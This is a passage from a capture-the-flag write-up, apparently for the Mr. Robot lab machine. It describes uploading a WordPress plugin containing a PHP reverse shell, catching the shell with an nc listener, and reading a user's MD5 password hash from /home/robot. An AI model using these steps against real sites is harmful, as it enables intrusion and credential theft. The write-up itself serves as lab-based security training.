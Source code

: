 ![alt]({{ site.url }}{{ site.baseurl }}/images/mrrobot_wplogin.png)

Since I could upload plugins as the `elliot` user, I created a `.php` file containing code that returns a reverse shell to my own machine. I zipped the `.php` file, uploaded it, set up a listener on my own machine, activated the plug-in and got shell access:

```sh
kali@kali:~$ nc -nlvp 1717
listening on [any] 1717 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.120] 52200
bash: cannot set terminal process group (1553): Inappropriate ioctl for device
bash: no job control in this shell
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-admin$ whoami
whoami
daemon
```

I looked around for a bit and found a directory in `/home` called `robot`. Inside of it was the 2nd key to which my current user didn't have access yet. There was also a second file called `password.raw-md5` which appeared to contain (hashed) credentials:

```sh
daemon@linux:~$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ file robor
file robor
robor: ERROR: cannot open 'robor' (No such file or directory)
daemon@linux:/home$ file robot
file robot
robot: directory
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt
password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
